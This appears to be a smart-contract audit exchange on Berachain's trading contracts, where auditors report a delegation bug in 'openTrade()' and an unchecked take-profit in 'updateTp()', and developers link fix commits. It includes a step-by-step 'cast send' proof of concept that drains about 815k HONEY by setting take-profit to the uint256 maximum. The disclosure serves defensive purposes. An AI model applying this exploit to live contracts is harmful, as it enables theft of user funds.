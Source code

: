 # Trading Contracts

## We managed to get the local environment set up correctly with all the services, so we're all good on that front. We dived deeper into the Trading, TradingStorage, and TradingCallbacks contracts today. Still have quite a bit more code to go through, but we believe to have found two issues so far

### In the `Trading.openTrade()` function, at the end when a limit order is created, it sets `simplifiedTradeId.trader = msg.sender`. This doesn't work correctly in the case where a delegatee is performing this call to `openTrade()` for a delegator. In that case, `msg.sender` would end up being the delegatee's address, whereas the HONEY tokens are originally transferred from the sender address, which is set to `_msgSender()`, which in this case would be set to `senderOverride` == original delegator's address . Our suggestion is to change the line of code to `simplifiedTradeId.trader = sender` instead to prevent delegatee's from being able to open trades using their delegator's tokens

Yeah this one makes a ton of sense, good catch
([fix-commit](https://github.com/berachain/bts/pull/170/commits/d4720a904158e703bc2d87ab272cd2371e7541e6)).

### This one is a potential one as we're unsure of the impact - the `Trading.updateTp()` function does not perform any checks on the newTp argument prior to updating specified order's tp parameter. We noted that this can be used to artificially pass the `t.buy ? a.price >= t.tp : a.price <= t.tp` check in `TradingCallbacks.executeNftCloseOrderCallback()` and get rewards when you shouldn't, but that code seems to be commented out. We'll keep investigating this more on our end, but just wanted to let you know about this in this update

Agreed, there should definitely be sanity check to the `newTp` input. At the very least, the validation check that's run
in `openTrade()` can also be run here:

```solidity
require(newTp == 0 || (t.buy ? newTp > t.openPrice : newTp < t.openPrice), "WRONG_TP");
```

### We also wanted to let you know that the updateTp() issue I mentioned yesterday has no impact since that NFT bot reward code is commented out, and there's no other way to abuse that currently

### [12-01-2023 Follow-up] We found that an attacker can profit with this bug by utilizing the following steps in the local development environment, below

### We had to make a few changes to the configs to get the oracle precompile working, but assuming that works on your end already

### Approve the TradingStorage contract

```sh
cast send --rpc-url $RPC_URL --private-key $BOTPK 0x7eeca4205ff31f947edbd49195a7a88e6a91161b "approve(address,uint256)" 0xdca334ea93855f092c644b3a334ccd94868437a0 115792089237316195423570985008687907853269984665640564039457584007913129639935
```

### Assuming the $BOT address has at least 100000000000000000000000 (i.e 100000e18) HONEY tokens, you can open a trade with `positionSizeDai` set to 100000e18

```sh
cast send 0xE09A7C6c401E10eB88bc2920bC7093885375E28f "openTrade((address,uint256,uint256,uint256,uint256,uint256,bool,uint256,uint256,uint256),uint8,uint256)" '(0x6632a45926F20410F52B49f805d4987BE608829e, 0, 0, 0, 100000000000000000000000, 3810500000000, false, 100, 0, 0)' 0 1000000000000 --private-key $BOTPK --rpc-url=$RPC_URL
```

### Now, utilize the `updateTp()` bug to set the tp to `type(uint256).max)`

```sh
cast send 0xE09A7C6c401E10eB88bc2920bC7093885375E28f "updateTp(uint256,uint256,uint256)" 0 0 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff
--private-key $BOTPK --rpc-url=$RPC_URL
```

### Now, execute the NFT order (or wait for the bot to do it)

```sh
cast send 0xE09A7C6c401E10eB88bc2920bC7093885375E28f "executeNftOrder(uint8,address,uint256,uint256)" 0 0x6632a45926F20410F52B49f805d4987BE608829e 0 0 --private
-key $BOTPK --rpc-url=$RPC_URL
```

### Your balance now, assuming you started with 100000e18 HONEY tokens, will be 10815042502956293999999991, which is a profit of 815042502956293999999991 HONEY. If this is pegged to USD, then that's 815k USD. Note that going over 100000e18 for `positionSizeDai` is not possible due to the `ABOVE_MAX_POS` check

### The reason this works is a) due to the `updateTp()` bug, but also b) in `executeNftCloseOrderCallback()`, in the first few lines, `v.price` is set to `t.tp` under certain conditions, which are very easy to meet with `updateTp()`. Later on, `v.reward1` will also be set since `a.price <= t.tp` (we make a sell order and put `t.tp` to the max, and `a.price` will always be below it). Finally, `currentPercentProfit()` is called, which uses `v.price`, which will now be `type(uint256).max`. It ends up returning `maxPnlP`, which is 900% profit. The profit in this case I think takes into account the NFT bot reward too

### Just clarifying that this is to give you the full picture, the only bug here is the missing check in `updateTp()`

I see, thanks for the detailed scenario walkthrough. We’ve set lower bounds on the `newTp`, would also be prudent to set
upper bounds on the `newTp`, which can easily be done using the existing `correctTp` helper function.

[Fix commit](https://github.com/berachain/bts/pull/175/commits/d2cba63632c47d106dc72079e95b148d7460e672#diff-46cdf3f670b30de773353dfaa061ba9324aa9386ba4d714a636702327f77e7f3)
for checking the upper bound on `newTp`.
